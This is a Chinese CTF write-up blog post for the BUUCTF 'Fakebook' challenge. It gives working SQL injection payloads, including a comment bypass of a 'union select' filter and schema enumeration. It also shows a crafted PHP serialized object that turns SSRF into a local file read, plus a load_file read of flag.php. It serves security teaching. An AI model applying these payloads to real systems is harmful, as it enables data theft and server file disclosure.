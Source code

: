 <!--yml
category: 未分类
date: 2022-04-26 14:40:37
-->

# BUUCTF__[网鼎杯 2018]Fakebook_题解_风过江南乱的博客-CSDN博客_fakebook网鼎杯

> 来源：[https://blog.csdn.net/tm_1024/article/details/107045217](https://blog.csdn.net/tm_1024/article/details/107045217)

## 前言

*   前天上午去报名了初中辅导老师，下午收到暑假可能可以回学校学习。。。真就尴尬。如果可以，回还是不回。
*   参加了2020年的网鼎杯，签到杯，神仙打架，萌新不配参加，下次一定。

## 读题

*   这题有点意思，虽然是sql注入，但注入点不在平常的注册登录那里，而是在`view.php` , 但是，远远不是sql注入那么简单。

*   首先拿到题很容易发现，f12看到get传参就注意了一下。
    ![在这里插入图片描述](img/bae6f8b67d58cdff7aa637d253d9837e.png)

*   随便传入一个字母发现报错提示，就很明显的sql注入点了。并且暴露了网站根目录。
    ![在这里插入图片描述](img/04e4b5262044649d4d1ac162491d1ff3.png)

*   这回跑字典啥也没跑出来，都是sql语句报错。好像都没被过滤。

*   那就手工试一下，联合注入，启动。

*   先测试列，在列5时报错，看来有4列

    ```
     ?no=100 order by 5# 
    ```

*   然后测试回显位，这步是之前没用过的，原因是以前的sql注入都是很明显的账号密码，很容易知道回显位。

    ```
     ?no=100 union select 1,2,3,4# 
    ```

*   嗯？提示过滤。why?
    ![在这里插入图片描述](img/6cf136e7f3a3c1ed56d9e7d20f322857.png)

*   把payload拆开看看过滤了什么，发现单个单词都没过滤，过滤了`union select`

*   网上找到绕过方法`union/**/select`，也可以放弃联合注入用报错注入。一样可行

*   修改payload再次尝试

    ```
     ?no=100 union/**/select 1,2,3,4# 
    ```

*   得到回显位为2
    ![在这里插入图片描述](img/343d6a45d6d52453a49a6e56e3547900.png)

*   将2 替换为database() ，再次尝试，得到数据库名称`facebook`

    ```
    ?no=100 union/**/select 1,database(),3,4# 
    ```

![在这里插入图片描述](img/35cfb49b5d79d23554929110d3b1f96d.png)

*   继续得到表的名称`users`

    ```
    ?no=100 union/**/select 2,group_concat(table_name),2,2 from information_schema.tables where table_schema=database()# 
    ```

![在这里插入图片描述](img/a027e9bdfe1ee5250053e77b0bdbd64f.png)

*   进一步得到字段名，有多个：no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS

    ```
    ?no=100 union/**/select 2,group_concat(column_name),2,2 from information_schema.columns where table_name='users'# 
    ```

![在这里插入图片描述](img/ed6792831725ebcb47af725492b6c279.png)

*   尝试读取内容，以为到此结束，没想到，这才刚刚开始。读取内容发现字段 `data` 有一组序列化后的字符串，其它字段也没什么内容。此时注意到，这就是我们刚刚注册填的内容

    ```
    ?no=100 union/**/select 2,group_concat(data),2,2 from users# 
    ```

![在这里插入图片描述](img/d1876c677aa692a6e39e37c2b426befb.png)

*   注入到此结束，没有得到flag。显然网鼎杯的题目怎么可能这么简单。

## 研究

### 一、robots.txt__源码泄露

*   很多网站都会有这个文件，比如说百度、谷歌都有，直接访问`/robots.txt` 就行
*   作用是告诉搜索引擎该网站可以访问的范围。但
*   这个知识点之前知道，但没想到这里用上了。
*   访问，发现有一个user.php.bak
    ![在这里插入图片描述](img/ce9f31cff4a2d5da8c946224f6a4c30a.png)
*   访问`/user.php.bak` 下载了一个文件，去除后缀名.bak得到user.php，源码泄露。

```
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

} 
```

*   主要关注一下get函数，没看过的函数没关系，百度函数功能。
*   大概理解是将我们输入的blog，调用get函数创建链接我们填的url，将访问该url返回的内容在页面输出。这里就是我们利用的点。

### 二、ssrf__服务端请求伪造

*   ssrf是什么？参考[这篇文章](https://www.jianshu.com/p/d1d1c40f6d4c)比较好理解。
*   本来应该是让它返回我们填的blog页面内容，但是我们读啥呢？？？
*   万万没想到，题目还有一个`flag.php`,得扫描，能不能扫出来，还得看你字典有没有。但是一般比赛都直接说明题目不需要扫描器，怕服务器承受不住。
*   所以，我们可以填`http:127.0.0.1/flag.php` ,然后让上面说的调用get函数访问它并返回显示内容吗？不行，看上面源码，过滤了http/https。
*   所以，继续往下

### 三、file协议__读取本地文件

*   file协议是什么？参考[这篇文章](https://blog.csdn.net/github_39319000/article/details/86523282)
*   可以绕过http读取文件，同时有前面也暴露了解对路径。很明确。
*   那为啥不在注册的时候blog直接填`file:///var/www/html/flag.php` ，然后你会发现，报错不能注册。所以还得往下。

### 四、php序列化

*   由上面的data字段内容可以得知，我们的注册信息，是以反序列化字符串储存的。
*   以序列化的方式存储在data字段中，查询时返回序列化字符串后先进行反序列化后再提取blog网址。
    ![在这里插入图片描述](img/4deb8c440630e51987dfafff487121aa.png)
*   那如果让它查询返回的是包含`file:///var/www/html/flag.php`的序列化字符串，那它提取时就是访问了flag.php文件并返回。解决了上面注册的过滤。
*   所以，我们先构造一个php序列化字符串。

```
<?php

class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
?> 
```

### 五、最后解题

*   所以，只需要让它返回我们构造的php序列化字符串里的内容，再一次sql联合注入，返回查询内容为file:///var/www/html/flag.php

    ```
    ?no=100 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' 
    ```

![在这里插入图片描述](img/7b1ca17b56fb9aa50bf8608161ac5029.png)

### 六、其它方法

*   看wp还看到一种解法，直接通过sql读取函数直接读取flag.php文件

    ```
    ?no=100 union/**/select 1,load_file('/var/www/html/flag.php'),3,4 # 
    ```

![在这里插入图片描述](img/d6d991075a1c8bc48b48d401d2d51b37.png)

*   主要是mysql的`load_file`函数，可以百度了解。

## 最后

*   理一下思路，我终止在sql注入结束，看wp才发现原来这么复杂，先知道了data字段中序列化储存，再得知user.php源码泄露，通过源码得知得可以用file协议利用ssrf漏洞读取文件，再通过序列化去读取flag.php。
*   很综合的一道题，不愧是网鼎杯。
*   做完做题可以去丰富目录字典了。
*   附上[题目链接](https://buuoj.cn/challenges#%5B%E7%BD%91%E9%BC%8E%E6%9D%AF%202018%5DFakebook)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)